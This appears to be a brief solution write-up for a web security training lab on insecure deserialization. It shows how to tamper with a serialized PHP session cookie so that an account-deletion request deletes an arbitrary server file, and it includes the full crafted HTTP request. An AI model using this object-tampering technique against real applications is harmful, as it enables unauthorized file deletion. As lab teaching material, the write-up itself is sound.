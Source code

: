 # Using application functionality to exploit insecure deserialization 

Login with wiener creds, change attribute "avatar_link" to "/home/carlos/morale.txt"
Then, delete carlos account, file will be deleted instead of avatar.



```
POST /my-account/delete HTTP/1.1
Host: 0ade0089031e4b8fc0e7ad140020005e.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJvOGx6aGhlY2pqMDM4ejlxNTkycWk2bTJvOXpyaGkzOSI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0ade0089031e4b8fc0e7ad140020005e.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```
